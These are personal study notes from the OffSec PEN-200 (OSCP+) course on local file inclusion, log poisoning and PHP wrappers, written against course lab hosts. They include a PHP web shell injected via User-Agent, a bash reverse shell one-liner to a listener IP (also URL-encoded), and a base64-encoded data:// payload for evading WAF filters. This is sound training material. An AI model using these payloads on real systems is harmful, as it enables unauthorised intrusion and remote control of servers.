 # PEN-200

The certification associate with this course is the **OffSec Certified Professional (OSCP+)**.

{% hint style="success" %}
  Hack Responsibly.

  Always ensure you have explicit permission to access any computer system before using any of the techniques
  contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

> These will be the notes I felt were worth writing down as things I was not completely familiar with and/or were new to me at the time of working through this course.

## Module 9: Common Web Application Attacks

### File Inclusion Vulnerabilities
#### Local File Inclusion (LFI)
The difference here is that including a local file will execute it rather than read the contents of it.
Using Log Poisoning with php and LFI, we can execute commands on the web server.

Taking a look at the previous directory traversal vulnerability, let's see what information is stored in the `/var/log/apache2/access.log`.
In the example provided, the User-Agent is stored. Using this information we can pass along a crafted User-Agent to execute commands via a cmd parameter.
Sending to the `index.php?page=admin.php` a crafted user-agent of `User-Agent: <?php echo system($_GET['cmd']); ?>`
Utilizing this string, we can then navigated to the access.log, appending `&cmd=<our command here>` to execute via LFI.

After testing that the cmd parameter works, let's get a reverse shell. We'll need to URL encode the data so it's treated correctly.
A simple reverse shell one-liner in bash: `bash -c "bash -i >& /dev/tcp/my.listener.ip.here/port 0>&1"` would be URL encoded as `bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E236%2F4444%200%3E%261%22`

#### PHP Wrappers
Include the contents of a file:
- php://filter

Using the PHP filter wrapper in a similar way as previous sections: `curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php`
This results in a similar content as requesting admin.php earlier. Using teh PHP filter to encode the content in base64, we can get the content of admin.php.
`curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`

Achieve code execution:
- data://
Using the PHP data wrapper to execute commands: `curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"`
Some WAFs may filter strings such as system, so we'll base64 the command.
```
$ echo -n '<?php echo system($_GET["cmd"]);?>' | base64
PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

$ curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

#### Remote File Inclusion (RFI)

